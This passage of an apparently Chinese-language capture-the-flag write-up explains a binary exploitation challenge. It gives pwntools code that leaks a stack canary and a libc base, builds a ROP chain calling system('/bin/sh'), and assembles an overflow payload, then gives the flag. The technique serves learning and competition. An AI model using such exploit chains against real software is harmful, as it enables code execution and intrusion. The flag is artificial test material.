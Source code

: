 ```python
```
后面的 leak stack 是直接拿 罢了 然后对着 vmmap diff
记得要补齐 不确定的话可以len(rl()) 看length 

auto 一点
```python
# must + b'\0'
leak=b'\x00'+rl().strip()
warn(f"Thread leak: {leak}")
canary = u64(leak[:8])
print("canary:",hex(canary))
leak_stack = u64(leak[8:]+b'\x00'*(8-len(leak[8:])))
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
libc.address=libc_base
# dbg()
```

## 3.3 HOW TO BUILD ROP

下面是auto way 去找 也可以ropgadget 
主要都有了
```python
libc.address=libc_base
# dbg()

# ROP
rop = ROP(libc)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
```

attack payload 
就是 offset + canary + 随便 8 个 + ret + pop_rdi + bin_sh + system
可是我看到有人
就是 offset + canary + 随便 8 个 + pop_rdi + bin_sh + ret + system 也可以 
还有
我看到没有ret 也可以 ？？？？就以防万一 alignment 问题
```
# attack payload 
offset = 0x48
payload = b'CHUNK 1 1 ' 
payload += b'a' * offset 
payload += p64(canary)
payload += b'b' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
```
# 4.0 FLAG 
L3AK{m30w_m30w_1n_th3_d4rk_y0u_c4n_r0p_l1k3_th4t_c4t}
